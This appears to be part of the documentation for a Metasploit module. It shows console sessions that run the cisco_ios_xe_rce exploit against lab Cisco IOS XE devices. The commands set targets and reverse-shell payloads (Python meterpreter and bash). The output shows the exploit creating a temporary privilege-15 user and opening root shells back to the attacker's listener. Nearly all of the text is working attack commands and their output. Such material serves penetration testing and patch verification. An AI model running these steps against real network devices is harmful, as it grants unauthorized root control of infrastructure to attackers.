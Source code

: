 ```
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0
uname -a
Linux test2_c1000v 4.19.64 #1 SMP Wed Dec 11 10:30:30 PST 2019 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.114 - Command shell session 8 closed.
msf6 exploit(linux/misc/cisco_ios_xe_rce) > 
```

### Unix Target (IOS XE 17.3.2)

```
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set RHOSTS 192.168.86.113
RHOSTS => 192.168.86.113
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set target 1
target => 1
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/unix/python/meterpreter/reverse_tcp
payload => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/misc/cisco_ios_xe_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 17.03.02
[*] Created privilege 15 user 'edGjwUsF' with password 'hhOLNNrX'
[*] Removing user 'edGjwUsF'
[*] Sending stage (24772 bytes) to 192.168.86.113
[*] Meterpreter session 9 opened (192.168.86.122:4444 -> 192.168.86.113:56770) at 2025-03-03 20:36:00 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : testc100v
OS           : Linux 4.19.106 #1 SMP Fri Oct 2 17:55:01 UTC 2020
Architecture : x64
Meterpreter  : python/linux
meterpreter > 
```

```
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(linux/misc/cisco_ios_xe_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 17.03.02
[*] Created privilege 15 user 'mXsKBwvG' with password 'gCUirrkj'
[*] Removing user 'mXsKBwvG'
[*] Command shell session 10 opened (192.168.86.122:4444 -> 192.168.86.113:56802) at 2025-03-03 20:36:39 +0000

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0
uname -a
Linux testc100v 4.19.106 #1 SMP Fri Oct 2 17:55:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.113 - Command shell session 10 closed.
msf6 exploit(linux/misc/cisco_ios_xe_rce) > 
```
